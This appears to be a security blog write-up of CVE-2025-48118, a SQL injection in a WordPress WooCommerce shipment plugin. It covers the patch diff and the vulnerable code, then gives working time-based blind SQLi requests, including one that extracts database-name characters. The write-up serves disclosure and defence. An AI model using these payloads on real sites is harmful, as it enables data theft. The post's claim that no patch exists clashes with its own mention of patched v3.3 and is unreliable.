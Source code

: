 ```yaml
---
title: CVE-2025-48118 Analysis & POC
description: Security Vulnerability in WordPress Woocommerce Partial Shipment Plugin.
date: 2025-09-29 19:54:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

The vulnerability occurs in the **Woocommerce Partial Shipment** plugin for WordPress prior to version **3.3**.  
It allows attackers to directly interact with the database, potentially leading to data theft and other attacks.

- **CVE ID**: [CVE-2025-48118](https://www.cve.org/CVERecord?id=CVE-2025-48118)  
- **Product**: [WordPress Woocommerce Partial Shipment Plugin](https://wordpress.org/plugins/wc-partial-shipment/advanced/)  
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 3.2  
- **CVSS Severity**: High (8.5)  
- **Required Privilege**: Subscriber  

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
- **Woocommerce Partial Shipment**: v3.2 (vulnerable) and v3.3 (patched)
- **Diff Tool**: **meld** or any comparison tool to view differences between versions
- **Activated WooCommerce Plugin**: must be **activated** before installing **Woocommerce Partial Shipment Plugin**, since several WooCommerce functions are used.

## Analysis
The root cause lies in directly injecting **POST** request data into an SQL query without proper sanitization or validation.

### Patch Diff
Use any diff tool to compare the vulnerable and patched versions.  
A significant difference appears in **wc-partial-shipment/woocommerce-partial-shipment.php**.

However, since the developer made many changes, locating the vulnerable line can be difficult.

> In WordPress, for SQLi to occur, the application must interact with the database using the global variable `$wpdb`.  
> Searching for this keyword inside **wc-partial-shipment/woocommerce-partial-shipment.php** helps identify possible sinks.

![search sink](search_sink.png "Sink location found in source code")

`get_shipment_id` and `get_wxp_shipment_data` are two functions in the **WXP_Partial_Shipment** class that directly insert user input into SQL queries without validation, making them vulnerable to SQL Injection.

![Patch](patch.png "Comparison between vulnerable and patched version")

The patch uses `$wpdb->prepare()` to safely construct SQL queries instead of **direct string concatenation** with user input.  
This ensures all values are **properly escaped** before being inserted into the SQL query, effectively mitigating SQL Injection risks.

### How it works
Both `get_shipment_id` and `get_wxp_shipment_data` are called by the function `wxp_order_set_shipped` within the same class.

```php
function wxp_order_set_shipped(){
    $order_id = isset($_POST['order_id']) ? $_POST['order_id'] : 0;
    // other logic

    $wxp_shipment = $this->get_wxp_shipment_data($order_id);
    if(isset($_POST['order_id']) && $_POST['order_id']){
        global $wpdb;
        $shipment_id = $this->get_shipment_id($_POST['order_id']);
        if(!$shipment_id){
            $data = array(
                'order_id' =>$order_id,
                'shipment_id' =>1,
                'shipment_url'=>'',
                'shipment_num'=>'',
                'shipment_date'=>current_time('timestamp',0),
            );
            $wpdb->insert($wpdb->prefix."partial_shipment",$data,array('%d','%d','%s','%s','%s'));
            $shipment_id = $wpdb->insert_id;
        }
    // other logic     
    }

    echo json_encode(array('order_id'=>$order_id,'status'=>$status_key));
    exit();
}
````

👉 The `order_id` parameter is taken directly from the **POST request**, making it user-controlled and allowing it to be passed into vulnerable SQL queries within `get_shipment_id` and `get_wxp_shipment_data`.

To find where `wxp_order_set_shipped` is called, search for the keyword `wxp_order_set_shipped` inside the plugin directory.

![Search 1](search_1.png "Location of wxp_order_set_shipped function call")

`wxp_order_set_shipped` is registered in the class constructor as a callback for the `wp_ajax_wxp_order_set_shipped` hook, meaning it can be triggered by authenticated users.

👉 Accessing `/wp-admin/admin-ajax.php` with the parameters:

```http
action=wxp_order_set_shipped&order_id=payload_here
```

will trigger the following:

* The callback `wxp_order_set_shipped` executes.
* `order_id` is taken directly from the request and inserted into SQL queries.
* The query executes twice due to its usage in two separate SQL calls containing the malicious payload.

## Exploit

### Detecting SQLi

Send a **POST request** containing an SQLi payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

This results in the query:

```sql
SELECT id as ship_id FROM wp_partial_shipment WHERE order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Because the query executes twice, the response time doubles.

![time response](time_resp.png "Response time after successful exploitation")

A **subquery in the FROM clause** is used because MySQL treats it as a temporary table.
The subquery executes once to create the temporary table, and the main query runs afterward.
This ensures the `SLEEP` function runs only once instead of being multiplied across multiple comparisons.

For example, using the following payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT SLEEP(5))
```

The response time increases exponentially.

![search 2](search_2.png "Exponential response time increase")

### Extracting the First Letter of the Database Name

The first step in data extraction is confirming at least one character of the **database name** — once retrieved, the rest can be dumped easily.

Send a request with the following **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Here, `SUBSTRING()` extracts the first letter of the **database name**, and `IF()` triggers `SLEEP(5)` if it equals `0x77` ('w').

Hex encoding (`0x77`) is used for `'w'` because the `order_id` parameter, being a **POST** value, is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) and `sanitize_text_field` in WordPress.

👉 Based on the delayed response, we confirm that the first character is `'w'`.

## Conclusion

The **CVE-2025-48118** vulnerability in the WordPress **Woocommerce Partial Shipment** plugin (versions before 3.3) originates from directly inserting unsanitized user input into SQL queries, resulting in a **SQL Injection** vulnerability.

No official patch has been released at the time of writing.

**Key Takeaways:**

* Always validate and sanitize user input.
* Use `$wpdb->prepare()` for database operations in WordPress to prevent SQL Injection.
* Keep plugins updated and perform regular security audits to avoid being an attack target.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Woocommerce Partial Shipment Plugin <= 3.2 vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/wc-partial-shipment/vulnerability/wordpress-woocommerce-partial-shipment-3-2-sql-injection-vulnerability)